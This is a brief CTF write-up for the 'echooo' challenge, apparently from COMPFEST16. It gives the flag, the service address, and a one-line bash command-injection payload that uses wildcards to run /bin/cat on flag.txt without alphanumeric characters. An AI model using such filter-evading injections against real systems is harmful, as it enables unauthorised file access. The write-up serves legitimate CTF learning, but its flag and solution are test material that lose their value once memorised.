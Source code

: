 # Title
echooo (500 points)

# Flag
COMPFEST16{3ch0ing_4r0uNd_w1th_sYmb0ls_3bc526845e}

# Description
Program ini akan melakukan echo pada setiap input yang kamu berikan, kecuali karakter alphanumeric. Flag in **flag.txt**

```bash
nc challenges.ctf.compfest.id 20014
```

# Author
Zanark

# Solution
bash command injection with wildcards
```bash
; /???/??? ????.???
```
**;** for escaping echo 
**/???/???** for execute /bin/cat
**????.???** is flag.txt 